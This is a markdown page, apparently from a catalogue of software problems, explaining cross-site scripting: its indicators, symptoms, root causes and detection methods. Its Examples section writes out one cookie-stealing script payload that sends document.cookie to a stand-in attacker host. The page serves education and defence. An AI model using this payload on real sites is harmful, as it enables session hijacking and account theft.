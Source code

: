 ```yaml
---
title: Cross-Site Scripting Vulnerabilities
description: Inadequate input validation and output encoding allows attackers to inject
  malicious scripts that execute in users' browsers.
category:
- Security
- Technical
related_problems:
- slug: sql-injection-vulnerabilities
  similarity: 0.65
- slug: log-injection-vulnerabilities
  similarity: 0.6
- slug: buffer-overflow-vulnerabilities
  similarity: 0.55
- slug: session-management-issues
  similarity: 0.55
- slug: authentication-bypass-vulnerabilities
  similarity: 0.5
layout: problem
---
```


## Description

Cross-Site Scripting (XSS) vulnerabilities occur when web applications fail to properly validate user input or encode output, allowing attackers to inject malicious scripts that execute in other users' browsers. These vulnerabilities can lead to session hijacking, data theft, defacement, or other malicious activities performed in the context of the victim's browser session.

## Indicators ⟡

- User input displayed in web pages without proper encoding
- JavaScript code can be injected through form fields or URL parameters
- Dynamic content generation without input sanitization
- Client-side data validation without corresponding server-side validation
- User-generated content displayed without security filtering

## Symptoms ▲

- **Script Injection:** Malicious JavaScript code executed in user browsers
- **Session Token Theft:** Attackers stealing session cookies through injected scripts
- **Page Defacement:** Unauthorized modification of web page content
- **Phishing Attacks:** Fake login forms or content injected to steal credentials
- **Malicious Redirects:** Users redirected to attacker-controlled websites

## Root Causes ▼

- **Insufficient Input Validation:** User input not properly validated or sanitized before processing
- **Missing Output Encoding:** Dynamic content not encoded appropriately for the output context
- **Direct DOM Manipulation:** Client-side code directly inserting user data into the DOM
- **Inadequate Content Security Policy:** Missing or weak CSP headers allowing script execution
- **Server-Side Template Injection:** Template engines processing user input without proper escaping
- **Third-Party Component Vulnerabilities:** Vulnerable JavaScript libraries or frameworks

## Detection Methods ○

- **Input Validation Testing:** Test all input fields and parameters for script injection
- **Output Encoding Analysis:** Review how user data is displayed and encoded in responses
- **Automated Security Scanning:** Use security scanners to identify potential XSS vulnerabilities
- **Code Review for XSS Patterns:** Review code for common XSS vulnerability patterns
- **Content Security Policy Testing:** Verify CSP effectiveness in preventing script injection

## Examples

A blog application displays user comments directly in HTML without encoding special characters. An attacker posts a comment containing `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>` which executes in every visitor's browser, sending their session cookies to the attacker's server. The attacker can then use these session cookies to impersonate users and access their accounts. Another example involves a search function that displays the search term in the results page like "Results for: [user input]". An attacker crafts a malicious URL with JavaScript in the search parameter. When victims click the link, the script executes and can perform actions on behalf of the user, such as changing account settings or making unauthorized transactions.